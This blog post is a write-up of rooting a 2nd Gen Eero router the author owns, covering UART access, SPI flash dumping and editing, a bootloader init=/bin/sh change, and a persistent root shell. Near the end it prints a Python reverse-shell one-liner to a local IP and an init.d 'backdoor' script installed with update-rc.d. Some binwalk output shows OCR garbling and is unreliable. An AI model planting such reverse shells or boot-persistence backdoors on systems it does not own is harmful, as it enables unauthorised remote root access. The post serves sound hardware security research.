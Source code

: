 ```yaml
---
title: Getting a Root Shell on the 2nd Gen Eero Router
date: 2024-10-21 # HH:MM:SS +/-TTTT
# categories: [CVE, Research, Bug Bounty]
# tags: [TAG]     # TAG names should always be lowercase
---
```


# Summary

Earlier this year, I wanted to dig into the 2nd Gen Eero Router. While working with physical devices it is very helpful to get root access to the device at the beginning of testing. Getting a root on the Eero device was not as trivial as it is on most IoT devices and taught me a lot.

In this blog post, I'm describing all the steps (and failed ideas) I took to get access to the device.

My approach can be split into a few simple steps:
- Getting a UART shell read access
- Reading the SPI Flash content
- Overwriting the SPI Flash content
- Getting a boot shell
- Getting a full-access shell

# Getting a UART shell read access

At the beginning, I wanted to try the most basic technique of getting the shell on the device - by attaching to the UART port on the board. On the Eero board, the UART port is located next to the Flash chip. 
![[_images/eero/image0.png]]

Its TX, RX, and GND pins look as follows:
![[_images/eero/image1.png]]

I've soldered 3 cables into the board and connected it to my UART-USB reader. When attaching it to the terminal, I only got read access to the bootloader logs:
![[_images/eero/image2.png]]

The logging always stopped after displaying the `Starting kernel ...` message and I couldn't interrupt the booting process because the time to stop the autoboot was set to 0 seconds.

# Reading the SPI Flash content

At this point, I've decided I need to read and overwrite the SPI Flash content to increase the autoboot interruption time. I've desoldered the chip and spent a lot of time trying to read its content with my Bus Pirate v3 board. Unfortunately for unknown reasons, it couldn't read the content.

I then attempted to read it using the Flipper Zero tool and its [SPI Mem Manager](https://lab.flipper.net/apps/spi_mem_manager) application. It turned out extremely easy to use with guidance on how to connect each pin. 
![[_images/eero/image3.png]]

After connecting pins, it automatically recognized the model of the SPI chip and read its content.
![[_images/eero/image4.png]]

### Changing boot arguments in the flash dump

Running `binwalk` found the flash dump contained multiple file formats inside. 
```bash
$ binwalk SPIMem_2024-03-19_01,37,45.bin 

DESCRIPTION     HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0       0x0         ELF, 32-bit LSB executable, ARM, version 1 (SYSV) 
19432   0x4BE8      Ubiquiti partition header, header size: 56 bytes, name: "PARTNUM_SHFT", size -1912995176 bytes
81400   0x13DF8     Unix path: /dev/icbcfg/boot
263424  0x40500     ATAGS msm partition table (msmptbl), version: 4, number of paritions: 11
393216  0x60000     ELF, 32-bit LSB executable, ARM, version 1 (SYSV)
614007  0x95E77     XML document, version: "1.6"
9830640 0xF0000     ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
1358089 8x1488B9    Certificate in DER format (x509 v3), header length: 4, sequence length: 1284
1358125 0x14892D    Certificate tn DER format (x509 v3), header length: 4, sequence length: 1288
1422840 0x1585F8    CRC32 polynomial table, little endian
1424624 0x15BCF0    CRC32 polynomial table, little endian
```

The most important for me was finding a place where boot arguments are stored to change the `bootdelay` value from `0` to any higher value. I've opened the file in the hex editor and quickly searched for the arguments. It found two identical instances of boot arguments:
![[_images/eero/image5.png]]

The arguments are doubled for backup purposes. If there is any issue in the first copy of the arguments, they are replaced with the second one. 

I've then changed the `bootdelay` argument to 9 seconds. When changing the arguments, I also had to edit the CRC32 checksum placed at the beginning of the arguments section to match the changes. In the first section, the bytes are `27 03 EA 09`

After making the changes, I wrote the edited firmware back to the SPI chip, soldered it to the board, and started the device.

# Bootloader shell

After overwriting the boot options I was able to interrupt the startup process. The bootloader shell is very limited but allowed to run a few useful commands such as:
- `mmc` - MMC sub system
- `tftpput` - TFTP put command, for uploading files to a server
- `setenv` - set environment variables to persistent storage

At first, I thought I could get the main OS memory from the MMC by loading its content in chunks to the RAM and then using the `tftpput` command uploading it to my PC. I have created a simple Python script to do it automatically:
```python
for i in range(0x0, 0x720000, 0x5111):
	port.write(f"mmc read 84000000 {i} 5111\n".encode())
	wait_for_is_read()
	
	port.write(f"tftpput 84000000 A22200 file{count}\n".encode())
	wait_for_is_read()
	
	count += 1
```

The script took a few hours to finish. Unfortunately only after I've done it, I understood my mistake. The data on disk is fragmented and one part of a file may lay in a different block of the disk than the second part. I ended up with a dump of useless junk.
```
$ binwalk dump.bin
[...]
3144050055 0xBB666587 merypt 2.2 encrypted data, algorithm: blowfish-448, mode: CBC, keymode: Sbit
3144080041 0xBBGGDAA9 Certificate tn DER format (x569 v3), header length: 4, sequence length: 1284
3144086153 6xBB660B19 Certificate in DER format (x589 v3), header length: 4, sequence length: 1288
3144080785 0xBB66DD91 Certificate in DER format (x569 v3), header length: 4, sequence length: 1284
3144184896 0xBB687440 Untx path: /var/log/conntrackd. log
3144186616 0xBB687AF8 Untx path: /var/log/conntrackd-stats.log
3144344324 0xBB6AE304 Unix path: /sys/dev/block/%d:%d/loop/backing_file
3144345176 8xBB6AE658 Untx path: /dev/dtsk/by-uutd/
3144361384 6xBB6B25A8 Untx path: /usr/share/locale
3144391168 0xBB6B9A08 ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
3144442332 6xBB6C61DC Unix path: /dev/disk/by-uutid/
3144443266 8xBB6C657C Untx path: /sys/dev/btock/%d:%d/loop/backitng_file
3144446896 0xBB6C73B0 Unix path: /usr/share/locale
3144495088 8xBB6D2FF6 Unix path: /usr/share/locale
3144497240 0xBB6D3858 Unix path: /dev/dtsk/by-uutd/
3144498588 0xBB6D3D9C Untx path: /sys/dev/block/%d:%d/loop/backing_file
3144505856 0xBBÓDSA60 ELF, 32-bit LSB shared object, ARM, version 1 (SYSV)
3144522240 0xBB6ÓD9A08 ELF, 32-bit LSB shared object, ARM, version 1 (SYSV)
3144538112 6xBB6DD866 Unix path: /usr/share/locale
3144546816 0xBB6DFAG66 ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
```

I then figured out an easier way of getting the shell in the system. Using the bootloaders `setenv` command I've changed the boot args adding the `console=ttyMSM0,115200n8 init=/bin/sh` options. 
```bash
$ setenv bootargs="root=/dev/mmcblk0p4 loglevel=6 rdinit=/bin/kinit rw single rootdelay=5 rootwait_nodelay rootwait_timeout=5 console=ttyMSM0,115200n8 init=/bin/sh"
$ saveenv
```

After saving the changes using the `saveenv` command and restarting the device, I successfully got my first root shell.
![[_images/eero/image6.png]]

There was a tiny issue with the shell I've got - it ran just before the `systemd` started every important process in the system so I couldn't check what binaries are listening on ports and what arguments are used when starting them.
![[_images/eero/image7.png]]

I figured I needed to add a reverse shell to the startup process itself. To do so, I've created two files:

**/var/backdoor**
```bash
#!/bin/sh
while true; do
    python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.4.21",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' && kill -9;
    sleep 1;
done
```

and 

**/etc/init.d/s99backdoor**
```bash
#!/bin/sh
case "$1" in 
    start)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Started" || echo "Failed to start"
        ;;
    stop)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Stopped" || echo "Failed to stop"
        ;;
    reload)
        "$0" stop
        "$0" start
       ;;
   *)
    echo "How to: $0 {start | stop | reload}"
   exit 1
esac

exit $?
```

I enabled the backdoor script to run when the system boots using the `update-rc.d` tool:
```
$ chmod +x /var/backdoor
$ /usr/sbin/update-rc.d s99backdoor defaults
```

After restarting the system and starting a listener on my machine with address `192.168.4.21`, I got a reverse shell with root privileges with all the processes properly started.

![[_images/eero/image8.png]]

# Final thoughts

During this project I've learned a lot about hardware components, soldering, and booting process. Getting a root shell was only a beginning of the project, after which I analysed the binaries working in the system and it's whole ecosystem.